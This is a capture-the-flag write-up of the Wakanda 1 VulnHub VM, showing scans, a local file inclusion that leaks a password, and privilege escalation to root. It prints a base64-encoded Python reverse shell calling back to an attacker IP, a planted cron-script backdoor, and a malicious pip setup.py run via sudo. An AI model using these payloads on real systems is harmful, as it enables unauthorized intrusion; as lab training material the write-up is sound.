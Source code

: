 ```yaml
---
layout: post-detail
title: CTF challenge - wakanda
date: 2018-09-24
categories: CTF
description: CTF wakanda, vm found on: https://www.vulnhub.com/entry/wakanda-1,251/
img-url: ''
comments: true
---
```


# Target

Syn scan.

    $ sudo nmap -sS 192.168.2.0/24

```sh
Nmap scan report for 192.168.2.217
PORT     STATE SERVICE
80/tcp   open  http
111/tcp  open  rpcbind
3333/tcp open  dec-notes
MAC Address: 08:00:27:3C:1E:DB (Oracle VirtualBox virtual NIC)
```

The target contain a web server on port 80.
Tcp with Version, and OS version.

    $ sudo nmap -sT -sV -A -p- 192.168.2.217

```txt
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Vibranium Market
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo:
|   program version   port/proto  service
|   100000  2,3,4        111/tcp  rpcbind
|   100000  2,3,4        111/udp  rpcbind
|   100024  1          33015/tcp  status
|_  100024  1          41724/udp  status
3333/tcp  open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
33015/tcp open  status  1 (RPC #100024)
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

A try with netcat:

    $ nc 192.168.2.217 3333
    SSH-2.0-OpenSSH_6.7p1 Debian-5+deb8u4

We have the version of ssh, debian

A scan with dirb:

    $ dirb http://192.168.2.217 /usr/share/dict/dirb-wordlists/common.txt 

```sh
---- Scanning URL: http://192.168.2.217/ ----
+ http://192.168.2.217/backup (CODE:200|SIZE:0)
+ http://192.168.2.217/index.php (CODE:200|SIZE:1527)
+ http://192.168.2.217/secret (CODE:200|SIZE:0)
+ http://192.168.2.217/server-status (CODE:403|SIZE:301)
+ http://192.168.2.217/shell (CODE:200|SIZE:0)
```

No formular, pages `/backup`, `/secret`, `/shell` are void... `/server-status` need permission... ???

The source code of `/index.php` include a line who point on a `/?lang=fr` parameter...

This param is vulnerable to a Local File Inclusion (LFI), according this post on [medium.com](https://medium.com/@Aptive/local-file-inclusion-lfi-web-application-penetration-testing-cc9dc8dd3601) or [securityidiots.com](http://securityidiots.com/Web-Pentest/LFI/guide-to-lfi.html) , i've try many things here.  

The url `?lang=php://filter/convert.base64-encode/resource=index` reveal something.

    $ curl http://192.168.2.217/\?lang\=php://filter/convert.base64-encode/resource\=index -o secret

We purge all html content from the file `secret`, and we will able to decode the content.

    $ cat secret | base64 -d 

```php
<?php
$password ="Niamey4Ever227!!!" ;//I have to remember it

if (isset($_GET['lang']))
{
include($_GET['lang'].".php");
}

?>
```

Try user and pass on ssh:

    $ ssh mamadou@192.168.2.217 -p 3333
    password: Niamey4Ever227!!!
    
```python
>>> help()

Welcome to Python 2.7!  This is the online help utility.
```

Ok... we'll switch on a bash shell.

    >>> import pty;pty.spawn("bash")
    $ uname -a
    $ cd 
    $ cat flag1.txt
    Flag : d86b9ad71ca887f4dd1dac86ba1c4dfc

The second flag is in `/home/devops`.

    $ cat /home/devops/flag2.txt
    cat: /home/devops/flag2.txt: Permission denied

    $ ls -l /home/devops/
    -rw-r----- 1 devops developer 42 Aug  1 15:57 flag2.txt

We need find a way to become `devops` or member of group `developer` for read the key.

    $ find / -user devops 2>/dev/null
    /srv/.antivirus.py
    /tmp/test
    /home/devops
    /home/devops/.bashrc
    /home/devops/.profile
    /home/devops/.bash_logout
    /home/devops/flag2.txt

    $ ls -l /srv/.antivirus.py
    -rw-r--rw- 1 devops developer 36 Aug  1 20:08 /srv/.antivirus.py

Nice, a file where we can write something, like a reverse shell to become `devops:developer`.

    $ msfvenom -p cmd/unix/reverse_python LHOST=192.168.2.111 LPORT=1234 -f raw

```txt
Payload size: 457 bytes
python -c "exec('aW1wb3J0IHNvY2tldCAgLCAgc3VicHJvY2VzcyAgLCAgb3M7ICAgICAgIGhvc3Q9IjE5Mi4xNjguMi4xMTEiOyAgICAgICBwb3J0PTEyMzQ7ICAgICAgIHM9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCAgLCAgc29ja2V0LlNPQ0tfU1RSRUFNKTsgICAgICAgcy5jb25uZWN0KChob3N0ICAsICBwb3J0KSk7ICAgICAgIG9zLmR1cDIocy5maWxlbm8oKSAgLCAgMCk7ICAgICAgIG9zLmR1cDIocy5maWxlbm8oKSAgLCAgMSk7ICAgICAgIG9zLmR1cDIocy5maWxlbm8oKSAgLCAgMik7ICAgICAgIHA9c3VicHJvY2Vzcy5jYWxsKCIvYmluL2Jhc2giKQ=='.decode('base64'))"
```

Modify the file `/srv/.antivirus.py` like this:

```python
#open('/tmp/test','w').write('test')
exec('aW1wb3J0IHNvY2tldCAgLCAgc3VicHJvY2VzcyAgLCAgb3M7ICAgICAgIGhvc3Q9IjE5Mi4xNjguMi4xMTEiOyAgICAgICBwb3J0PTEyMzQ7ICAgICAgIHM9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCAgLCAgc29ja2V0LlNPQ0tfU1RSRUFNKTsgICAgICAgcy5jb25uZWN0KChob3N0ICAsICBwb3J0KSk7ICAgICAgIG9zLmR1cDIocy5maWxlbm8oKSAgLCAgMCk7ICAgICAgIG9zLmR1cDIocy5maWxlbm8oKSAgLCAgMSk7ICAgICAgIG9zLmR1cDIocy5maWxlbm8oKSAgLCAgMik7ICAgICAgIHA9c3VicHJvY2Vzcy5jYWxsKCIvYmluL2Jhc2giKQ=='.decode('base64'))
```
Open a socket on your machine:

    $ nc -lvp 1234

And the script will start by itself like it use cron.

    $ id 
    uid=1001(devops) gid=1002(developer) groups=1002(developer)
    cat /home/devops/flag2.txt
    Flag 2 : d8ce56398c88e1b4d9e5f83e64c79098

To read the last key, we need permission of `root`, so with sudo or anything.

    sudo -l
    User devops may run the following commands on Wakanda1:
    (ALL) NOPASSWD: /usr/bin/pip

Devops can execute `/usr/bin/pip` without password...

    ls -l /usr/bin/pip
    -rwxr-sr-- 1 root developer 281 Feb 27  2015 /usr/bin/pip

Unfortunately, we can't write on this file to execute a reverse shell.

After googling sometimes, we can use `fakepip`.  
Download the file from [fakepip](wget https://raw.githubusercontent.com/0x00-0x00/FakePip/master/setup.py)

    $ wget -cv https://raw.githubusercontent.com/0x00-0x00/FakePip/master/setup.py

Edit this file to change the `RHOST` and `lport`.

```python
RHOST = '192.168.2.111'  # change this
lport = 3333
```
Next, we need a find a way to upload our payload by create a simple server, simply with python, you can use darkhttpd too or other thing:

    $ python2.7 -m SimpleHTTPServer 4444

From the vm, wget -cv http://192.168.0.111:4444/setup.py

Start netcat:

    $ nc -lvp 443

With ou user `devops`, launch pip:

    $ sudo pip install . --upgrade --force-reinstall

You are root now:

```txt
listening on [any] 3333 ...
192.168.2.217: inverse host lookup failed:
connect to [192.168.2.111] from (UNKNOWN) [192.168.2.217] 57633
root@Wakanda1:/tmp/pip-QVoVOV-build#
```
    cd
    cat root.txt

```txt
 _    _.--.____.--._
( )=.-":;:;:;;':;:;:;"-._
 \\\:;:;:;:;:;;:;::;:;:;:\
  \\\:;:;:;:;:;;:;:;:;:;:;\
   \\\:;::;:;:;:;:;::;:;:;:\
    \\\:;:;:;:;:;;:;::;:;:;:\
     \\\:;::;:;:;:;:;::;:;:;:\
      \\\;;:;:_:--:_:_:--:_;:;\
       \\\_.-"             "-._\
        \\
         \\
          \\
           \\ Wakanda 1 - by @xMagass
            \\
             \\


Congratulations You are Root!

821ae63dbe0c573eff8b69d451fb21bc
```

This vm was very instructive :)
